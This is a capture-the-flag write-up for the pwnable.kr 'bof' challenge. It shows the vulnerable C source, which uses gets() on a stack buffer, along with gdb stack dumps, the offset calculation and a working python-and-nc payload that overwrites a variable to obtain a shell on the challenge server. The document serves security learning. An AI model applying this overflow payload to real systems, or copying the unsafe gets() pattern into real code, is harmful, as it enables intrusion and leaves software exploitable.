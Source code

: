 # Description
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

# Exploitation
```bash
pawn1454@ubuntu:~$ nc pwnable.kr 9000
AAAA
overflow me : 
Nah..
pawn1454@ubuntu:~$ 
```
Connect to 9000 port, It may receives string and can be overflowed.

The source code is:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
I can overwrite the `key` variable.
```assembly
   0x5655564f <func+35>:	call   0xf7e66890 <gets>
=> 0x56555654 <func+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <func+47>:	jne    0x5655566b <func+63>
```
In stack:
```
gdb-peda$ x/32x $esp
0xffffd5d0:	0xffffd5ec	0xffffd674	0xf7fb8000	0x0000d267
0xffffd5e0:	0xffffffff	0x0000002f	0xf7e14dc8	0x41414141
0xffffd5f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd600:	0x41414141	0x41414141	0x41414141	0x8ab22d00
0xffffd610:	0xf7fb8000	0xf7fb8000	0xffffd638	0x5655569f
0xffffd620:	0xdeadbeef	0x56555250	0x565556b9	0x00000000
0xffffd630:	0xf7fb8000	0xf7fb8000	0x00000000	0xf7e20637
0xffffd640:	0x00000001	0xffffd6d4	0xffffd6dc	0x00000000
gdb-peda$ x/x $ebp+8
0xffffd620:	0xdeadbeef
```
The payload will be:
```
----------------------------------------
| "A"*32 | "B"*20 | "\xbe\xba\xfe\xca" |
----------------------------------------
```

# Payload
```
pawn1454@ubuntu:~$ (python -c 'print "A"*32+"B"*20+"\xbe\xba\xfe\xca"';cat)|nc pwnable.kr 9000
id
uid=1008(bof) gid=1008(bof) groups=1008(bof)
```
